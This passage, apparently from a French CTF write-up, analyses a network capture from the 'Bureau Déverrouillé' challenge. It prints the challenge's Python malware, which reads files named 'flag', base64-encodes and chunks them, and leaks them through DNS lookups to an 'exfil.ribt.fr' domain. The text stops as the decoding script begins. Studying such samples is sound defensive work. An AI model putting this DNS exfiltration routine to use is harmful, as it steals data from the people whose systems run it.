 ```yaml
---
layout: post
title: Bureau Déverrouillé
subtitle: Write-Up pour le NBCTF
tags: [writeup, reseau, prog]
comments: true
---
```

Bonjour ! Voici mon write-up sur le challenge **Bureau Déverrouillé** à l'occasion du NoBracket CTF. J'ai eu l'opportunité de terminer 2ème avec l'équipe nndy. Tout d'abord, un grand merci au créateur de 
ce challenge, ribt, ainsi qu'à tous les organisateurs et créateurs de challenges, que j'ai pu embêter à de nombreuses reprises à l'occasion de ce CTF. Mais sur ce, passons au challenge !

## Premier coup d'oeil
![Chall](https://github.com/0xBlackRaven/0xBlackRaven.github.io/blob/master/assets/img/challenge_description.png?raw=true){: .mx-auto.d-block :}

La description du challenge ne nous renseigne pas plus que ça sur ce qui aurait pu se passer, mais on peut supposer que des données ont été exfiltrées. Et que tout ça a été enregistré par une capture réseau.
Ca tombe bien, on est justement dans la catégorie réseau !
On télécharge le fichier fourni, sobrement intitulé **capture.pcapng**, on garde en pcapng parce que c'est next-gen et que notre wireshark peut le lire sans problème.

![Wireshark_le_goat](https://cdn.discordapp.com/attachments/822188888297963560/1173656631586865243/85vnqb.jpg?ex=6564bfea&is=65524aea&hm=216a9557f15a87dff50432c6b79ee7a1267ef92c73ecd29dc77af0bb14fa0479&){: .mx-auto.d-block :}

Et hop, on a notre fichier tout propre tout beau, que Wireshark peut lire.
On ouvre donc le fichier, et puis là... On est assez surpris par la longueur du fichier.
La capture fait 7491 trames, principalement des trames DNS. Une première intuition me fait dire que la plus grosse partie du challenge se déroulera là. Ensuite, nous avons au début quelque chose que j'interprète comme l'initialisation de quelque chose. Et là, détail me saute aux yeux : un GET de /malware.py, provenant du site ribt.fr sur le port 8000.

 ![Pas_discret](https://cdn.discordapp.com/attachments/822188888297963560/1173656521385705573/Capture_decran_24.png?ex=6564bfd0&is=65524ad0&hm=45274245d1a8992fc45430afab53f765d6d829bd0151cd1ae27d600e1b3b9a4b&){: .mx-auto.d-block :}

 ![Pas_discret2](https://media.tenor.com/gVHHuzDLos8AAAAC/tiens-tiens-tiens-booba.gif){: .mx-auto.d-block :}

 Nous faisons donc un clic droit -> Suivre -> Flux TCP
 Et nous avons notre malware en clair !
 
 ![Malware](https://cdn.discordapp.com/attachments/822188888297963560/1173657711565607042/Capture_decran_25.png?ex=6564c0eb&is=65524beb&hm=0ba9ba2479432ef2ac7aabae2f81f4cc5bbab369a3fe7b48c3bc2e55e23e7af7&){: .mx-auto.d-block :}
 
 Passons maintenant à l'analyse.
 
![Analyse](https://i.pinimg.com/736x/90/36/85/9036856e213e3f2e8161ae9bfaa24bfd.jpg){: .mx-auto.d-block :}

 ## Analyse du malware

Intéressons-nous tout d'abord à la première partie du code.
 ```python
files = os.listdir('.')
for f in files:
    if 'flag' in f:
        with open(f, 'rb') as flag:
            data = flag.read()
```
La première ligne recherche tous les fichiers situés dans le répertoire où l'utilisateur est situé, puis itère dessus dans une boucle for. Si le fichier a pour nom "flag", la condition est remplie, donc le programme ouvre l'image en mode lecture, puis stocke les données de flag dans data. Jusque là, rien de sorcier. La partie suivante sera un peu plus intéressante pour nous.

 ```python
encoded = base64.urlsafe_b64encode(data).decode().rstrip("=")
chunks = [encoded[i:i+63] for i in range(0, len(encoded), 63)]
```

Ce morceau de code, qui paraît barbare, est en fait assez simple à comprendre. Nos données, précédemment stockées dans data, sont encodées en base64 (qui je le rappelle n'est pas un mécanisme de chiffrement, pour éviter de vous faire taper par des fans de crypto).
Après, les données encodées sont séparées en morceaux de 63 dans cette liste par compréhension. En gros, cela découpe les données encodées en base64 en morceaux de taille similaire. C'est tout pour cette partie, on passe à la suivante.

```python
queries = [chunk + '.exfil.ribt.fr' for chunk in chunks]
for i in range(len(queries)):
    try:
        socket.gethostbyname(str(i)+"."+queries[i])
    except:
        pass
```

Ici, on se reprend une petite liste par compréhension, qui ajoute juste les morceaux qui avaient été faits avant à `.exfil.ribt.fr`. Tiens... Ca ressemble étrangement à ce qu'on a pu voir dans les requêtes DNS... Etrange. Notre intuition est par la suite confirmée. En gros, le programme tente de résoudre le nom de domaine `{indice de l'itération}.{data encodée en base64}.exfil.ribt.fr` pour trouver l'adresse IP. Mais c'est juste un moyen pour récupérer les données et les envoyer vers le serveur. Sûrement à des fins purement éducatives. Hum hum.
Mais nous avons fini l'analyse de notre malware. Maintenant, passons à la phase que je préfère (c'est faux) : le scripting. En utilisant bien sûr le langage aimé de tous, le bien nommé python.

## Scripting
Tout d'abord, j'avais authentiquement la flemme de manipuler le fichier pour récupérer toutes les trames DNS. C'est alors que j'ai fait un :
```console
blackraven@blackraven:~$ strings capture.pcapng > data.txt
```

Le créateur de ce challenge et moi étions cependant sur la même longueur d'onde quant à cette méthode.
<iframe width="560" height="315" src="https://www.youtube.com/embed/dUtPtIMIG0I?si=YWsOgrrIVEr9WfVv" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

Donc bon, nous allons faire ça propre.


